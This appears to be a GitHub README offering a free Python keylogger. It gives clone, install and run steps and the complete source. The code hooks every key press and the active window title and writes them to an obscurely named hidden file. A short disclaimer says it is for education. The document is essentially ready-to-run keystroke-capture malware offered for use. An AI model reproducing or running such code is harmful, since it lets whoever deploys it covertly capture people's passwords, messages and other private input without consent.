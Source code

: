 

# Free Python Keylogger

![🔑](https://github.githubassets.com/images/icons/emoji/unicode/1f511.png)

## Overview
This Python script logs key presses along with the title of the active window at the time of the key press. The logged data is saved to a file for later analysis.

## Features
- Logs each key press.
- Captures the title of the active window when a key is pressed.
- Saves the logged data to a specified file.

## Requirements
- Python 3.x
- `keyboard` library
- `pygetwindow` library

## Installation

1. **Clone the repository**:
    ```bash
    git clone https://github.com/yourusername/keylogger.git
    cd keylogger
    ```

2. **Install dependencies**:
    ```bash
    pip install keyboard pygetwindow
    ```

## Usage

1. **Run the script**:
    ```bash
    python Keylogger.py
    ```

2. The script will start logging key presses and the active window titles. To stop the script, press `Ctrl+C`.

## Code Explanation

```python
import keyboard
import pygetwindow as gw

FILE_PATH = '.L3EgQar.txt'

def on_key_event(event):
    key = event.name
    active_window = gw.getActiveWindowTitle()
    with open(FILE_PATH, 'a') as file:
        file.write(f'm,{key} - {active_window}.\n')

keyboard.on_press(on_key_event)

try:
    keyboard.wait()
except KeyboardInterrupt:
    print("Program stopped.")
finally:
    keyboard.unhook_all()
```

### Key Components

- **`keyboard` library**: Used to capture key press events.
- **`pygetwindow` library**: Used to get the title of the active window.
- **`FILE_PATH`**: The path to the file where the log is saved.
- **`on_key_event` function**: Handles key press events, retrieves the active window title, and writes the data to the log file.
- **`keyboard.on_press(on_key_event)`**: Registers the `on_key_event` function to be called on each key press.
- **`keyboard.wait()`**: Waits indefinitely for key press events.
- **`try`/`except` block**: Ensures that the program can be gracefully stopped using `Ctrl+C`.


## Disclaimer
This script is intended for educational purposes only. Unauthorized use of a keylogger is illegal and unethical.
